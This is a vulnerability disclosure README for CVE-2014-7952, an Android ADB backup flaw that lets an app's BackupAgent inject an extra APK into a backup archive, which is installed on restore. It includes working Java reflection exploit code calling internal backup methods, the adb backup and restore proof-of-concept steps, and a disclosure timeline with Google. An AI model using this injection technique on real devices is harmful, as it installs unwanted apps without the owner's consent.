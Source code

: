 # ADB-Backup-APK-Injection
Android ADB backup APK injection vulnerability discovered by and POC created by Imre Rad, SEARCH-LAB Ltd., Hungary.

What is ADB backup/restore?
---------------------------
The Android operating system offers a backup/restore mechanism of installed packages through the ADB utility.
By default, full backup of applications including the private files stored in /data is performed, but this behaviour can be customized by implementing a [BackupAgent](http://developer.android.com/reference/android/app/backup/BackupAgent.html) class. This way applications can feed the backup process with custom files and data.
The backup file created is a simple compressed tar archive with some Android specific headers. Optional encryption is also possible.

APK injection vulnerability
---------------------------
The backup manager, which invokes the custom BackupAgent does not filter the data stream returned by the applications. While a BackupAgent is being executed during the backup process, it is able to inject additional applications (APKs) into the backup archive without the user's consent. Upon restoration of the backup archive, the system installs the injected, additional application (since it is part of the backup archive and the system believes it is authentic).

The Backup Manager can be exploited through simple reflection to inject the arbitrary additional APK:

```
// package name of the application to be injected. This will be one of the arguments of backupToTar() method
String packageName = "com.searchlab.wifitest"; 

Method backupToTar;
Method getData;
try {
	// looking up the internal Classes
	Class<?> fullbackupClass = Class.forName("android.app.backup.FullBackup");
	Class<?> backupDataOutputClass = Class.forName("android.app.backup.BackupDataOutput");
	
	// fetching reference to the backupToTar method and making it accessible for us
	backupToTar = fullbackupClass.getDeclaredMethod("backupToTar", String.class, String.class, String.class, String.class, String.class, backupDataOutputClass);
	backupToTar.setAccessible(true);		
	
	// we also need getData() method
	getData = FullBackupDataOutput.class.getDeclaredMethod("getData");
	getData.setAccessible(true);
	
	// and now let the magic begin!
	Object backupData = getData.invoke(data);
	backupToTar.invoke(null, packageName, null, null, getFilesDir().toString(), getFilesDir()+"/_manifest", backupData);
	backupToTar.invoke(null, packageName, "a", null, getFilesDir().toString(),getFilesDir()+"/com.searchlab.wifitest-1.apk", backupData);
	
	// that's all, folks
	Log.v("MYBACKUP", "backuptotar invoked!");
	
} catch (Exception e) {
	e.printStackTrace();
}
```

Who is affected?
----------------
The vulnerability resides in the backup mechanism of the Android operating system. Anyone using adb for creating and restoring backups of their handsets might be affected. One could think that command line applications are used by geeks or programmers only, but not necessarily, there are Windows GUI applications which rely on the same technology behind the scenes when creating backups or restoring them.
The malware might come from an innocent looking game without any suspicion as it claims to need no permissions at all. As soon as backup was created, the archive is infected.

Proof of Concept
----------------
In this repository you can find an application along with it's source code which can demonstrate the vulnerabilty.
It was tested on Android 4.4.4 and Android 5.1.1.

Step 1: Install ADB_Backup_Injection.apk (com.searchlab.backupagenttest):

![ADB Backup Injection, custom BackupAgent](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-backupagenttest2.png "ADB Backup Injection, custom BackupAgent")

This application *does not require any permissions*.

Step 2: Use the following command to create a backup of this package
```
adb backup -f backup.ab -apk com.searchlab.backupagenttest
```

(You could create a full system backup as well, the exploit would be still successful.)

Step 3 (optional): If you want to examine the backup archive just created, use the [ABE](https://github.com/nelenkov/android-backup-extractor) tool:
```
java -jar d:\tools\abe\android-backup-extractor-20140630-bin\abe.jar unpack backup.ab backup.tar
```
![ADB Backup Injection, the tar file with the injected content](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-tar-file.png "ADB Backup Injection, the tar file with the injected content")

In the tar file you will find the injected second application (com.searchlab.wifitest).

Step 4: Use the following command to restore the archive:
```
adb restore backup.ab
```

Since the backup.ab file already contains the injected application, it will be restored (installed) as well.

Step 5: Verify that Wifi Test application was indeed installed.
The application runs with android.permission.CHANGE_WIFI_STATE and android.permission.ACCESS_WIFI_STATE permissions to demonstrate that privilege escalation was also possible.

![ADB Backup Injection, injected application](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-wifitest.png "ADB Backup Injection, injected application")

CVE
---
The ID CVE-2014-7952 was assigned to this vulnerability.

Affected Versions
-----------------
As of today (2015-07-08), all Android versions are affected, including Android L.

Timeline
--------
SEARCH-LAB Ltd. responsibly reported this threat to the Android security team. At first, Google did not acknowledge the issue being security relevant. Later they kept requesting to hold off publishing as they needed more time for further investigation, but as of today, July 8, 2015 the bug was still not addressed. The most important milestones of the issue are listed in the next lines:

2014-07-14: The vulnerability was disclosed to the Android Security Team

2014-07-28: Google refused to treat the issue as a potential threat

...Couple of additional emails in this thread, Google kept investigating the issue and requested holding off the publication

2014-10-13: Asked Google for status update (and requested a cup or a mug for being patient)

2014-10-15: Google answered that it did not get fixed in the L release and kept requesting to hold off publishing it. (Got a promise about asking around for a mug)

...Few more ping-pong emails periodically without any new info (neither a mug)

2015-06-02: Google promised further info in a few days, but it never arrived
